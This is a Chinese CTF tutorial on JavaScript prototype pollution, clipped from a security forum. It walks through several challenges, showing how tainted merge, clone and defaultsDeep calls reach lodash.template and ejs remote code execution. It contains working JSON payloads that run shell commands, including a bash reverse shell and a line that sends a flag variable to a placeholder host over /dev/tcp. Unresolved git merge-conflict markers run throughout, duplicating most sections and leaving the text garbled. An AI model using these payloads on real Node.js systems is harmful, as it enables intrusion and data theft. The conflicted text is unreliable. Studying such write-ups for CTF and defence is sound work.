






<<<<<<< HEAD
---
title: Prototype Pollution Attack - 先知社区
url: https://xz.aliyun.com/t/14072
clipped_at: 2024-03-20 09:42:55
category: default
tags: 
 - xz.aliyun.com
---
=======
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f


# Prototype Pollution Attack - 先知社区

<<<<<<< HEAD
=======
Prototype Pollution Attack

- - -

>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
# 前言

JSON 语法：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
var object = {
  'a': [{ 'b': 2 }, { 'd': 4 }]
};

var other = {
  'a': [{ 'c': 3 }, { 'e': 5 }]
};

_.merge(object, other);
// => { 'a': [{ 'b': 2, 'c': 3 }, { 'd': 4, 'e': 5 }] }
```

<<<<<<< HEAD
原型链继承:
=======
原型链继承：
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

user.**proto**\=User.prototype

对象的 **proto**\= 类的 prototype

具体看这：[https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance\_and\_the\_prototype\_chain](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)

# Merge 类操作导致原型链污染

<<<<<<< HEAD
如果我们想设置`__proto__`的值该怎么做？找到能够控制数组（对象）的 “键名” 的操作即可
=======
如果我们想设置`__proto__`的值该怎么做？找到能够控制数组（对象）的“键名”的操作即可
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

-   对象 merge：是合并对象的方法，合并两个对象或者多个对象的属性
-   对象 clone:（其实就是将待操作的对象 merge 到一个空对象中）

以对象 merge 为例，我们想象一个简单的 merge 函数，代码参考 P 神

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

let o1 = {}//创建一个空对象
let o2 = {a: 1, "__proto__": {b: 2}}
<<<<<<< HEAD
//创建一个对象，对象存在两个属性一个是a,值为1，另一个属性是一个原型对象，值为{b: 2}
=======
//创建一个对象，对象存在两个属性一个是 a，值为 1，另一个属性是一个原型对象，值为{b: 2}
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
merge(o1, o2)//将两个对象进行合并
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171315-6d34792a-debe-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171315-6d34792a-debe-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

结果是合并成功了，但是原型链没有被污染。

这里因为 **proto** 没有被解析成键名，而是直接被解析成 o2 的原型

这里需要使用 JSON.parse 函数了

<<<<<<< HEAD
```plain
let o1 = {}//创建一个空对象
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
//创建一个对象，对象存在两个属性一个是a,值为1，另一个属性是一个原型对象，值为{b: 2}
=======
```bash
let o1 = {}//创建一个空对象
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
//创建一个对象，对象存在两个属性一个是 a，值为 1，另一个属性是一个原型对象，值为{b: 2}
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
merge(o1, o2)//将两个对象进行合并
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171353-84311962-debe-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171353-84311962-debe-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

这次成功把原型链污染了。

#### 例题：

**web338**

源码：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

secert.ctfshow==='36dboy' 这里需要把原型链污染，将 Object 类里面添加一个键值对 {"ctfshow":"36dboy"}

Payload:

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"__proto__":{"ctfshow":"36dboy"}}
```

**buuctf\[GYCTF2020\]Ez\_Express**

源码：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
var express = require('express');
var router = express.Router();
const isObject = obj => obj && obj.constructor && obj.constructor === Object;
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
function safeKeyword(keyword) {
  if(keyword.match(/(admin)/is)) {
      return keyword
  }

  return undefined
}

router.get('/', function (req, res) {
  if(!req.session.user){
    res.redirect('/login');
  }
  res.outputFunctionName=undefined;
  res.render('index',data={'user':req.session.user.user});
});


router.get('/login', function (req, res) {
  res.render('login');
});


router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }

  }
  res.redirect('/'); ;
});
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
module.exports = router;
```

这里存在触发的条件：可疑的 clone 方法

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```

想要利用 clone 函数需要先登录进去，找一下与登陆相关的

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
```

大体意思是在注册时，不能注册 admin，但是他会进行一次小写转大写，所以使用土耳其语的ı绕过，因为ı转大写也是 "I"，同样的还有 "ſ".toUpperCase () == 'S'

所以使用 admın 进行注册，直接登陆进去了，这里还告知了 flag 所在的路径 /flag

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171416-9197ed88-debe-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171416-9197ed88-debe-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

回忆一下 clone 函数是将待操作对象 merge 一个空对象

所以我们现在需要找到这个待操作对象，

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

/info 路由下，将 res.outputFunctionName 渲染进 index，此时如果写入恶意代码，访问 /info 路由的时候会进行模版渲染此时将注入的代码被执行，导致 RCE

而且它还是未定义的

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
res.outputFunctionName=undefined;
```

exp：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//"}}
```

具体构造原理：[https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/](https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/)

抓 /action 的包，改 content-type 为 json，传入 exp

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171441-a09be3fc-debe-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240310171441-a09be3fc-debe-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

然后访问 /info 路由即可拿到 flag

## Lodash 模块原型链污染

<<<<<<< HEAD
还是先了解控制数组（对象）的 “键名” 的操作
=======
还是先了解控制数组（对象）的“键名”的操作
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

-   lodash.merge:merge (object, sources) 递归合并 `sources` 来源对象自身和继承的可枚举属性到 `object` 目标对象
-   lodash.mergeWith:mergeWith (object, sources, \[customizer\]) 类似 merge，多一个 customizer 用于自定义合并规则
-   Lodash.set:set (object, path, value) 用于设置对象中的属性值，甚至可以在需要时创建嵌套的属性
-   Lodash.setWith:setWith (object, path, value, \[customizer\]) 类似 set，多一个 customizer 用于自定义合并规则
-   Lodash.defaultsDeep:defaultsDeep (object, ...defaults) 用于将默认对象的属性深度合并到目标对象中

<<<<<<< HEAD
其实说白了都是将对象进行拼接操作来**控制数组（对象）的 “键名”**
=======
其实说白了都是将对象进行拼接操作来**控制数组（对象）的“键名”**
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 配合 lodash.template 实现 RCE

在 Lodash 的原型链污染中，为了实现代码执行，我们常常会污染 template 中的 `sourceURL` 属性，即给所有 Object 对象中都插入一个 `sourceURL` 属性，然后通过 lodash.template 方法中的拼接实现任意代码执行漏洞。

我们看到 `lodash.template` 的代码：[https://github.com/lodash/lodash/blob/4.17.4-npm/template.js#L165](https://github.com/lodash/lodash/blob/4.17.4-npm/template.js#L165)

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
// Use a sourceURL for easier debugging.
var sourceURL = 'sourceURL' in options ? '//# sourceURL=' + options.sourceURL + '\n' : '';
// ...
var result = attempt(function() {
  return Function(importsKeys, sourceURL + 'return ' + source)
  .apply(undefined, importsValues);
});
```

将 options.sourceURL 拼接后赋值给 sourceURL，然后作为下面的 Function 的第二个参数。

注意这里使用 global.process.mainModule.constructor.\_load 来调用 child\_process，因为 require ('child\_process') 需要存在 require 函数来供调用，这里并没有

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
return global.process.mainModule.constructor._load('child_process').execSync('cat /flag').toString()//
```

#### 例题 \[Code-Breaking 2018\] Thejs

源码如下

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
const fs = require('fs')
const express = require('express')
const bodyParser = require('body-parser')
const lodash = require('lodash')
const session = require('express-session')
const randomize = require('randomatic')

const app = express()
app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json())
app.use('/static', express.static('static'))
app.use(session({
    name: 'thejs.session',
    secret: randomize('aA0', 16),
    resave: false,
    saveUninitialized: false
}))
app.engine('ejs', function (filePath, options, callback) { // define the template engine
    fs.readFile(filePath, (err, content) => {
        if (err) return callback(new Error(err))
        let compiled = lodash.template(content)
        let rendered = compiled({...options})

        return callback(null, rendered)
    })
})
app.set('views', './views')
app.set('view engine', 'ejs')

app.all('/', (req, res) => {
    let data = req.session.data || {language: [], category: []}
    if (req.method == 'POST') {
        data = lodash.merge(data, req.body)
        req.session.data = data
    }

    res.render('index', {
        language: data.language, 
        category: data.category
    })
})

app.listen(3000, () => console.log(`Example app listening on port 3000!`))
```

还是先找造成漏洞产生的函数 =>lodash.merge

<<<<<<< HEAD
这里很简单：用 `lodash.merge` 方法将用户提交的信息合并到 session 里面去，多次提交， session 里最终保存用户提交的所有信息。
=======
这里很简单：用 `lodash.merge` 方法将用户提交的信息合并到 session 里面去，多次提交，session 里最终保存用户提交的所有信息。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

主要是找到污染点在哪？上文说过一般选择污染 sourceURL

Payload：

<<<<<<< HEAD
```plain
{"__proto__":{"sourceURL":"\u000areturn e =>{return global.process.mainModule.constructor._load('child_process').execSync('id')}"}}
#\u000a Unicode编码表示换行
=======
```bash
{"__proto__":{"sourceURL":"\u000areturn e =>{return global.process.mainModule.constructor._load('child_process').execSync('id')}"}}
#\u000a Unicode 编码表示换行
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

### 配合 ejs 模板引擎实现 RCE

几个 exp：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
命令执行
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').execSync('calc');var __tmp2"}}

{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec('calc');var __tmp2"}}
<<<<<<< HEAD
反弹shell
=======
反弹 shell
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/6666 0>&1\"');var __tmp2"}}
```

还是通过例题来具象地分析

#### \[XNUCA 2019 Qualifier\]Hardjs

源码：[https://github.com/NeSE-Team/OurChallenges/blob/master/XNUCA2019Qualifier/Web/hardjs/source/server.js](https://github.com/NeSE-Team/OurChallenges/blob/master/XNUCA2019Qualifier/Web/hardjs/source/server.js)

关键源码：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
const fs = require('fs')
const express = require('express')
const bodyParser = require('body-parser')
const lodash = require('lodash')
const session = require('express-session')
const randomize = require('randomatic')
const mysql = require('mysql')
const mysqlConfig = require("./config/mysql")
const ejs = require('ejs')

...

app.get("/get",auth,async function(req,res,next){

    var userid = req.session.userid ; 
    var sql = "select count(*) count from `html` where userid= ?"
    // var sql = "select `dom` from  `html` where userid=? ";
    var dataList = await query(sql,[userid]);

    if(dataList[0].count == 0 ){
        res.json({})

    }else if(dataList[0].count > 5) { // if len > 5 , merge all and update mysql

        console.log("Merge the recorder in the database."); 

        var sql = "select `id`,`dom` from  `html` where userid=? ";
        var raws = await query(sql,[userid]);
        var doms = {}
        var ret = new Array(); 

        for(var i=0;i<raws.length ;i++){
            lodash.defaultsDeep(doms,JSON.parse( raws[i].dom ));    // 漏洞点

            var sql = "delete from `html` where id = ?";
            var result = await query(sql,raws[i].id);
        }
        var sql = "insert into `html` (`userid`,`dom`) values (?,?) ";
        var result = await query(sql,[userid, JSON.stringify(doms) ]);

        if(result.affectedRows > 0){
            ret.push(doms);
            res.json(ret);
        }else{
            res.json([{}]);
        }

    }else {

        console.log("Return recorder is less than 5,so return it without merge.");
        var sql = "select `dom` from  `html` where userid=? ";
        var raws = await query(sql,[userid]);
        var ret = new Array();

        for( var i =0 ;i< raws.length ; i++){
            ret.push(JSON.parse( raws[i].dom ));
        }

        console.log(ret);
        res.json(ret);
    }

});

...
```

<<<<<<< HEAD
/get 路由，发送请求大于 5 条就会把所有查询结果 merge 到一起，使用的是 lodash.defaultsDeep，这是前面提到的可以控制数组（对象）的 “键名” 的函数。与 lodash.defaultsDeep 相关的漏洞是 `CVE-2019-10744`.

根据 `CVE-2019-10744` 的信息，我们知道

```plain
=======
/get 路由，发送请求大于 5 条就会把所有查询结果 merge 到一起，使用的是 lodash.defaultsDeep，这是前面提到的可以控制数组（对象）的“键名”的函数。与 lodash.defaultsDeep 相关的漏洞是 `CVE-2019-10744`.

根据 `CVE-2019-10744` 的信息，我们知道

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"type":"test","content":{"prototype":{"constructor":{"a":"b"}}}}
```

在合并时便会在 `Object` 上附加 `a=b` 这样一个属性，任意不存在 a 属性的原型为 Object 的对象在访问其 `a` 属性时均会获取到 `b` 属性。

接下来需要找到污染点

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
if (!this.source) {
  this.generateSource();
  prepended += '  var __output = [], __append = __output.push.bind(__output);' + '\n';
  if (opts.outputFunctionName) {
    prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
  }
  if (opts._with !== false) {
    prepended +=  '  with (' + opts.localsName + ' || {}) {' + '\n';
    appended += '  }' + '\n';
  }
  appended += '  return __output.join("");' + '\n';
  this.source = prepended + this.source + appended;
}
```

这里不用全看懂，就是把 opts.outputFunctionName 进行拼接传递给 prepended，然后 prepended 再进行拼接传递给

this.source

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
if (opts.compileDebug){
    src='varline 1'+'\n'

        +',__lines ='+JSON.stringify(this.templateText)+'\n'

        +',__filename ='+(opts.filename?

        JSON.stringify(opts.filename):'undefined')+';'+'\n'
        +'try{'+'\n'

        +this.source

        +'}catch (e){'+'\n'

        +' rethrow(e,__lines,__filename,__line,escapeFn);'+'\n'

        +'}'+'\n';
}

else
src=this.source;
}
```

这里又将 this.source 做拼接后传递给了 src

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
else {
    ctor = Function;
  }
  fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
}
```

这里终于是出现了一个动态函数，参数就是我们的 src，所以如果我们覆盖了 `opts.outputFunctionName` 即可触发模版编译处的 RCE。

Payload:

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
{"type":"test","content":{"constructor":{"prototype":
{"outputFunctionName":"a=1;process.mainModule.require('child_process').exec('b
ash -c \"echo $FLAG>/dev/tcp/xxxxx/xx\"')//"}}}}
```

向 `/add` 路由发送 6 次请求

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311115713-715028ae-df5b-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240311115713-715028ae-df5b-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

然后访问 `/get` 路由进行原型链污染，最后访问 `/` 或 `/login` 路由触发 `render` 函数进行 ejs 模板 RCE，成功反弹 Shell

# 后记

写的不是很专业，挺通俗的，比较适合刚入门的，写的不对的地方，欢迎指正
